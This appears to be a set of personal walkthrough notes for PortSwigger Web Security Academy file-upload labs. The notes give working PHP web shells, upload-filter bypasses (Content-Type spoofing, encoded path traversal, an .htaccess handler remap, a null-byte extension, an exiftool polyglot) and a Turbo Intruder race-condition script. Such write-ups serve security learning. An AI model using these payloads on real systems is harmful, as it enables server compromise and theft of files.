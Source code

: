 **Remote code execution via web shell upload**


From <https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload> 


Sign in and upload a random image 
Our request when we 

Our file get request 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f93a4895-ab42-4bde-84b2-4fcee2e44b03)


Our file post request to upload 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/6ec652d8-ff3d-4811-8796-48940de1bae4)




Sent post to repeater and delete all the red useless data. 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a317ef37-baa4-4da0-a57f-665eb1fa526e)


Trying to upload php shell

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Rename filename to exploit.php than  send 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/395615d3-0675-4d72-b662-a9e7b5ced9e6)





To fetch the output https://0af1000703855365863231390034002c.web-security-academy.net/files/avatars/exploit.php
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/32c57e09-4cb4-4731-9af2-655123d68f80)


**Web shell upload via Content-Type restriction bypass**

From <https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass> 

Log in and upload a php shell 
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```


Get the following that php is not allowed
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/5f431897-8a62-48e9-803f-7118ed6aa78d)

image/jpeg

From <https://0afe001f03c79c2f8097814000330001.web-security-academy.net/my-account/avatar> 


Send that request to repeater
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/125f13d9-ee82-405f-b618-7cd56b3e71e8)

 

Change content type to 
image/jpeg
And send
Shell been uploaded 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/7f71c899-da60-4bb8-a1d8-e55e90d51c0a)



Our shell that read the requested file 
https://0afe001f03c79c2f8097814000330001.web-security-academy.net/files/avatars/shell.php
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4abdc5d3-e1ab-4ea9-8900-01f5b403778c)



**Web shell upload via path traversal**

From <https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal> 


Login and upload webshell
Notice that we can't get web shell 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/29b3c8b3-29a7-45d2-85bc-39d17ce2c0bd)


https://0a6300a1030583d682b18e6600070048.web-security-academy.net/files/avatars/shell.php


Go to our upload request
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/d99fad71-a894-40e4-9e82-3d26dcec0543)






Going up a directory 
https://0a6300a1030583d682b18e6600070048.web-security-academy.net/files/shell.php
Ulrl not found
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/68914408-f4f5-4ef4-af14-ed6a195b0e48)
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/f7d9a2e9-4c42-4cba-a435-c5c2979660ae)





Url encode our  `../`
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/91668f80-fa2d-4b80-bfb0-f48e15a914b7)





We now got our shell 
SBg03Dg3K1cPNonKO0ctZseZKaDm0VRQ

From <https://0a6300a1030583d682b18e6600070048.web-security-academy.net/files/shell.php> 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/1c60e316-640a-4c05-be3d-34c17a078a8f)







Web shell upload via extension blacklist bypass

From <https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass> 



Log in and upload a php shell 
We get php not allow 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/49345ca5-36a4-4c63-8499-0798fad992d5)






Response reveal php 2.4.41 
Which we can use .htaccess to make changes to configuration 
• In Burp Repeater, go to the tab for the POST /my-account/avatar request and find the part of the body that relates to your PHP file. Make the following changes: 
	• Change the value of the filename parameter to .htaccess. 
	• Change the value of the Content-Type header to text/plain. 
	• Replace the contents of the file (your PHP payload) with the following Apache directive: 
```
AddType application/x-httpd-php .l33t
``` 
This maps an arbitrary extension (.l33t) to the executable MIME type application/x-httpd-php. As the server uses the mod_php module, it knows how to handle this already. 

From <https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass> 

We have edited the htaccess config to accept php
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a8a5bbfb-fd69-4725-9826-2d35a70b2c2f)



Change shell to 133t on our upload request 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/0fc9c240-9433-403b-8f7d-015e218e6c61)





https://0a0e007b038f402a833223b900a700f4.web-security-academy.net/files/avatars/shell.l33t
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/41cbeca3-598e-4be7-9d4f-cebfa6f18910)



**Web shell upload via obfuscated file extension**

From <https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension> 

Login and upload a php exploit 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/176f6fb4-d19e-4985-b78b-0f1f1ae6372b)


We get a message that php not allowed with a 403 forbidden request 


Add a nullbyte double extension 
%00.jpg  

File uploaded 
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/cf06c84d-0667-4649-8cdd-b03fdefdbe71)


https://0ac600d504c077e582a4d926006e006a.web-security-academy.net/files/avatars/shell.php

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/4ee1a407-59dc-449b-8055-650faeaa8965)





***Remote code execution via polyglot web shell upload***

From <https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload> 


Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata

From <https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload> 

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" exploit.jpg -o polyglot.php
```

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a69d7cac-fafd-4d45-945d-a5d4ada7af57)



Notice that the mime type is png and the file extension is php 

**Web shell upload via race condition**

From <https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition> 

We cant upload our shell.php using previous technique 
We need to cause a race condition
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/aa6ff3e8-0b8b-4c27-81f0-7fead0cc3a83)

upload a legitimate picture file 

Our exploit for turbo intruder 

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''
POST /my-account/avatar HTTP/1.1
Host: 0a7c00620476fe3b825dfcbb00a9002a.web-security-academy.net
Cookie: session=JR8hIKCJ0qrin7lNitrgbedcBg5MyVF2
Content-Length: 474
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a7c00620476fe3b825dfcbb00a9002a.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryACWvLiXRtNM2gMcS
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7c00620476fe3b825dfcbb00a9002a.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

------WebKitFormBoundaryACWvLiXRtNM2gMcS
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryACWvLiXRtNM2gMcS
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryACWvLiXRtNM2gMcS
Content-Disposition: form-data; name="csrf"

BHUb4MUphcMKkMwrJL3EBc6pvEi4cA3x
------WebKitFormBoundaryACWvLiXRtNM2gMcS--


'''

    request2 = '''
GET /files/avatars/shell.php HTTP/1.1
Host: 0a7c00620476fe3b825dfcbb00a9002a.web-security-academy.net
Cookie: session=JR8hIKCJ0qrin7lNitrgbedcBg5MyVF2
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7c00620476fe3b825dfcbb00a9002a.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i


'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e8d37520-310e-47e8-906f-2460491d3f14)





We can also use repeater by sending request in groups 

![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/62b1fdcb-cb27-47a1-9e15-69bdaef39f0c)


